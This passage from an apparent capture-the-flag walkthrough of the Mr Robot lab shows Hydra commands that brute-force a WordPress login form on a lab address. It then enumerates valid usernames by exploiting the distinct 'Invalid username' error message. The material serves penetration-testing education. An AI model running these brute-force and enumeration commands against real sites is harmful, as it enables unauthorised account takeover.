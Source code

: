 Now with this data lets build our hydra command:

`hydra -L /root/fsocity.dic -P /root/fsocity.dic 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -V`

Ok, it sound like a great idea but...

<figure><img src="../../.gitbook/assets/mrrobot28.png" alt=""><figcaption></figcaption></figure>

736567315225 possibilities is a large number. As the login form says “Invalid username” when trying to log in with wrong credentials... It would be possible that it shows a different message when trying to log with a correct username and incorrect password? That username would be in the dic downloaded? Let’s se...

`hydra -L /root/fsocity.dic -p wrongpassword 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -V`

<figure><img src="../../.gitbook/assets/mrrobot29.png" alt=""><figcaption></figcaption></figure>

It worked. Let’s see what happens if we try to log in using the found username:

<figure><img src="../../.gitbook/assets/mrrobot30.png" alt=""><figcaption></figcaption></figure>
